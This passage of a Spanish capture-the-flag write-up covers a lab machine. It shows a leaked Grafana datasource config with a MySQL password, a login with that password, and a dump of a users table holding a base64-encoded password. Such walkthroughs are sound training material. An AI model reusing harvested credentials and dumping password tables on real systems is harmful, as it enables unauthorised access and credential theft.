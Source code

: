 ```
    datasources:
 - name: mysql.yaml 
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false
```

con esats credenciales intentaremos conectarnos a mysql

- mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'

y estamos dentro

MySQL ejecuta dos bases de datos no estándar, grafana y whackywidget: 

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.10 sec)
```

widget solo tiene una tabla

```
mysql> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.08 sec)
```

```
mysql> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.09 sec)
```
